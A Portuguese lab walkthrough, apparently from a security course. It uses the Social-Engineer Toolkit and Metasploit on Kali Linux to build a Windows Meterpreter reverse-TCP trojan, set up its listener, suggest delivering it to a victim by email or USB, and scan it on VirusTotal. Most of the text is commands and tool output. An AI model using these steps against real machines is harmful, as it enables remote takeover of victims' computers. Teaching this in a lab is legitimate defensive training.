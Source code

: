 # -Criando-um-Trojan-de-Acesso-Remoto-com-o-Social-Engineer-Toolkit-do-Kali-Linux

Abra o Terminal e execute o seguinte comando (com senha “rnpesr”) para ser super usuário:

Copy
┌──(aluno㉿kali)-[~]
└─$ sudo -i
[sudo] senha para aluno:
Acesse o SEToolkit:

Copy
┌──(root㉿kali)-[~]
└─# setoolkit
A seguinte janela será apresentada no Terminal. Selecione a opção 1 e aperte “ENTER”:

Copy
          !\_________________________/!\
          !!                         !! \
          !! Social-Engineer Toolkit !!  \
          !!                         !!  !
          !!          Free           !!  !
          !!                         !!  !
          !!          #hugs          !!  !
          !!                         !!  !
          !!      By: TrustedSec     !!  /
          !!_________________________!! /
          !/_________________________\!/
             __\_________________/__/!_
            !_______________________!/
          ________________________
         /oooo  oooo  oooo  oooo /!
        /ooooooooooooooooooooooo/ /
       /ooooooooooooooooooooooo/ /
      /C=_____________________/_/

[---]        The Social-Engineer Toolkit (SET)         [---]
[---]        Created by: David Kennedy (ReL1K)         [---]
                      Version: 8.0.3
                    Codename: 'Maverick'
[---]        Follow us on Twitter: @TrustedSec         [---]
[---]        Follow me on Twitter: @HackingDave        [---]
[---]       Homepage: https://www.trustedsec.com       [---]
        Welcome to the Social-Engineer Toolkit (SET).
         The one stop shop for all of your SE needs.

   The Social-Engineer Toolkit is a product of TrustedSec.

           Visit: https://www.trustedsec.com

   It's easy to update using the PenTesters Framework! (PTF)
Visit https://github.com/trustedsec/ptf to update all your tools!


 Select from the menu:

   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit

Set> 1
A seguinte janela será apresentada no Terminal. Selecione a opção 4 e aperte “ENTER”:

Copy
              ________________________
              __  ___/__  ____/__  __/
              _____ \__  __/  __  /
              ____/ /_  /___  _  /
              /____/ /_____/  /_/     

[---]        The Social-Engineer Toolkit (SET)         [---]
[---]        Created by: David Kennedy (ReL1K)         [---]
                      Version: 8.0.3
                    Codename: 'Maverick'
[---]        Follow us on Twitter: @TrustedSec         [---]
[---]        Follow me on Twitter: @HackingDave        [---]
[---]       Homepage: https://www.trustedsec.com       [---]
        Welcome to the Social-Engineer Toolkit (SET).
         The one stop shop for all of your SE needs.

   The Social-Engineer Toolkit is a product of TrustedSec.

           Visit: https://www.trustedsec.com

   It's easy to update using the PenTesters Framework! (PTF)
Visit https://github.com/trustedsec/ptf to update all your tools!


 Select from the menu:

   1) Spear-Phishing Attack Vectors
   2) Website Attack Vectors
   3) Infectious Media Generator
   4) Create a Payload and Listener
   5) Mass Mailer Attack
   6) Arduino-Based Attack Vector
   7) Wireless Access Point Attack Vector
   8) QRCode Generator Attack Vector
   9) Powershell Attack Vectors
  10) Third Party Modules

  99) Return back to the main menu.

set> 4
Escolha a opção 5 para criar um executável (Windows) com um Trojan de acesso remoto:

Copy
   1) Windows Shell Reverse_TCP               Spawn a command shell on victim and send back to attacker
   2) Windows Reverse_TCP Meterpreter         Spawn a meterpreter shell on victim and send back to attacker
   3) Windows Reverse_TCP VNC DLL             Spawn a VNC server on victim and send back to attacker
   4) Windows Shell Reverse_TCP X64           Windows X64 Command Shell, Reverse TCP Inline
   5) Windows Meterpreter Reverse_TCP X64     Connect back to the attacker (Windows x64), Meterpreter
   6) Windows Meterpreter Egress Buster       Spawn a Meterpreter shell and find a port home via multiple ports
   7) Windows Meterpreter Reverse HTTPS       Tunnel communication over HTTP using SSL and use Meterpreter
   8) Windows Meterpreter Reverse DNS         Use a hostname instead of an IP address and use Reverse Meterpreter
   9) Download/Run your Own Executable        Downloads an executable and runs it

set:payloads>5
Insira su endereço IP:

Copy
set:payloads> IP address for the payload listener (LHOST): 192.168.98.40
Insira a porta de escuta reversa com o valor 7777 (ainda não escreva “yes”):

Copy
set:payloads> Enter the PORT for the reverse listener: 7777
[*] Generating the payload.. please be patient.
[*] Payload has been exported to the default SET directory located under: /root/.set/payload.exe
Abra um segundo Terminal e verifique que o Payload foi criado:

Copy
┌──(aluno㉿kali)-[~]
└─$ sudo -i
[sudo] senha para aluno:

┌──(root㉿kali)-[~]
└─# cd /root/.set/
                                                                                                                
┌──(root㉿kali)-[~/.set]
└─# ls
meta_config  payload.exe  set.options  version.lock
O executável que implementará o Trojan de acesso remoto é o “payload.exe”. Para poder controlar a máquina Windows, os seguintes passos são necessários:

A máquina vítima (Windows) deve ser XP com SP1. Versões mais atuais (Windows 8 em diante) não são vulneráveis.

O arquivo “payload.exe” deve ser enviado de alguma maneira para a máquina vítima (e-mail, pen-drive, cd, etc...).

A máquina vítima deve estar na sua mesma rede local.

Após os requisitos mostrados acima serem atendidos, no segundo Terminal, você deve criar o servidor HTTP de escuta com o comando (no segundo terminal):

Copy
┌──(root㉿kali)-[~/.set]
└─# python -m http.server 80          
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
Volte ao primeiro Terminal e inicialize a escuta escrevendo “yes”:

Copy
set:payloads> Do you want to start the payload and listener now? (yes/no): yes
[*] Launching msfconsole, this could take a few to load. Be patient...
Metasploit tip: View a module's description using info, or the enhanced 
version in your browser with info -d
                                                  

MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMM                MMMMMMMMMM
MMMN$                           vMMMM
MMMNl  MMMMM             MMMMM  JMMMM
MMMNl  MMMMMMMN       NMMMMMMM  JMMMM
MMMNl  MMMMMMMMMNmmmNMMMMMMMMM  JMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMNM   MMMMMMM   MMMMM  jMMMM
MMMNI  WMMMM   MMMMMMM   MMMM#  JMMMM
MMMMR  ?MMNM             MMMMM .dMMMM
MMMMNm `?MMM             MMMM` dMMMMM
MMMMMMN  ?MM             MM?  NMMMMMN
MMMMMMMMNe                 JMMMMMNMMM
MMMMMMMMMMNm,            eMMMMMNMMNMM
MMMMNNMNMMMMMNx        MMMMMMNMMNMMNM
MMMMMMMMNMMNMMMMm+..+MMNMMNMNMMNMMNMM
        https://metasploit.com


       =[ metasploit v6.3.54-dev                          ]
+ -- --=[ 2394 exploits - 1235 auxiliary - 422 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

[*] Processing /root/.set/meta_config for ERB directives.
resource (/root/.set/meta_config)> use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (/root/.set/meta_config)> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
resource (/root/.set/meta_config)> set LHOST 192.168.98.40
LHOST => 192.168.98.40
resource (/root/.set/meta_config)> set LPORT 7777
LPORT => 7777
resource (/root/.set/meta_config)> set ExitOnSession false
ExitOnSession => false
resource (/root/.set/meta_config)> exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.98.40:7777 
msf6 exploit(multi/handler) >
Caso você queira executar esse Payload, uma máquina com Windows XP (sem aplicação de patches nem atualizações) na sua rede local deve executar o arquivo gerado “payload.exe” para ganhar acesso! Este passo não será aplicado no laboratório.

Ainda no primeiro Terminal, aperte 3 vezes “Ctrl + C” e feche o Terminal. No segundo Terminal, copie o arquivo “payload.exe” para a pasta Download:

Copy
┌──(root㉿kali)-[~/.set]
└─# cp payload.exe /home/aluno/Documentos/
Abra o Firefox e acesse o site do Virus Total. Aqui avaliaremos o arquivo “payload.exe” criado anteriormente:

Copy
www.virustotal.com/
Clique em “Chose file”, clique na pasta “Documentos”, abra o arquivo “payload.exe” e clique em “Confirm upload”. Na sequência responda o Captcha “I´m not a robot”. Obs: Pode ser que o site volte ao passo anterior, neste caso, repita o passo anterior e este passo.

Veja o score 56/73 (até o momento da execução deste laboratório) e que é categorizado como “Popular threat label; trojan.metasploit/rozena; Threat categories trojan; hacktool”:

Copy
56/73 security vendors and no sandboxes flagged this file as malicious
Reanalyze
7daa79bed72545aa8f4ab32ff0c7a7ac6f54a051bb1c0035c2fce87e7fc35bad
payload.exe
Caso queira, explore mais dados no site Virus Total. Feche o Firefox, volte ao Segundo terminal, apague o arquivo “payload.exe” da pasta Download e feche o Terminal:

Copy
┌──(root㉿kali)-[~/.set]
└─# cd /home/aluno/Documentos/ 

┌──(root㉿kali)-[/home/aluno/Documentos]
└─# rm payload.exe
